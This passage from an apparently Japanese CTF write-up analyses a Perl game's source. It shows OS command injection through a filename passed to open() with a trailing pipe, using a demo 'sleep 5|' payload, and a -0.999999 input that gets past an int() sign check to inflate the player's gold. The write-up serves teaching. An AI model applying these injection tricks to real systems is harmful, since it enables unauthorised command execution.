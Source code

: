 ```perl


sub show_help{
	print "\n\n? What you wanna do <$name>\n";
	print "* u hav $points points\n";
	print "* u hav $gold gold\n";
	print "[1] DO MATH\n";
	print "[2] BUY GOLD\n";
	print "[3] SELL GOLD\n";
	print "[4] SCOREBOARD\n";
	print "[5] LOAD GAME\n";
	print "[6] SAVE GAME\n";
	print "[7] EXIT\n";
	print "> ";
}
```

2 ケタの計算問題を解くと (所持しているのが 1000 ポイント以下であれば) 1 ポイントがもらえるというゲームのようです。1000 ポイント貯めると 1 ゴールドに換金でき、250 ゴールドを貯めるとデータのセーブもしくはロードができるようです。

最初に `my $name = <STDIN>;` によって `$name` にはユーザ入力が入っており、またゲームのセーブ時には `open (SAVEGAME, "/app/files/".$name) or break;` とユーザ入力が制限なしに `open` に引数として渡っていることがわかります。私がこの問題に取り掛かった時点で、[mitsu](https://twitter.com/meowricator) さんが Perl の仕様からここで OS コマンドインジェクションができるのではないかというアイデアを出していました。

`perl -e 'open(SAVEGAME, "/app/files; sleep 5|")'` を実行すればわかるように、Perl では `open` にわたすファイル名の最後に `|` を付け加えることで、OS コマンドを実行することができます。

`; (OS コマンド)|` を名前として入力した上でゲームのロードをすればよさそうですが、まずは 250 ゴールドを貯める必要があります。250000 ポイントも計算問題を解くことで貯めるのは非現実的ですから、他の方法がないか探してみましょう。

ゴールドをポイントに換金する処理を見てみます。

```perl
		print "? how much gold u wanna spend\n";
		print "! 1 GOLD = 1000 POINTS\n> ";
		my $subm = <STDIN>;
		chomp $subm;
		if( ($subm) <= $gold  and int($subm)>=0){
			$gold   -= ($subm);
			$points += ($subm)*1000;
		}
```

`$subm` にはポイントに変換するゴールドの数が入っています。`int($subm)>=0` と条件文では `$subm` の小数部を切り捨てた上で負数でないかチェックしていますが、`$gold   -= ($subm);` と所有しているゴールドを減らす処理では小数部を切り捨てていません。

`-0.999999` は負数ですが、`int` 関数に渡すと小数部が切り捨てられて `0` になります。入力してみましょう。

```
? What you wanna do <neko>
* u hav 0 points
* u hav 0 gold
[1] DO MATH
[2] BUY GOLD
[3] SELL GOLD
[4] SCOREBOARD
[5] LOAD GAME
[6] SAVE GAME
[7] EXIT
> 3
? how much gold u wanna spend
! 1 GOLD = 1000 POINTS
> -0.999999


? What you wanna do <neko>
* u hav -999.999 points
* u hav 0.999999 gold
```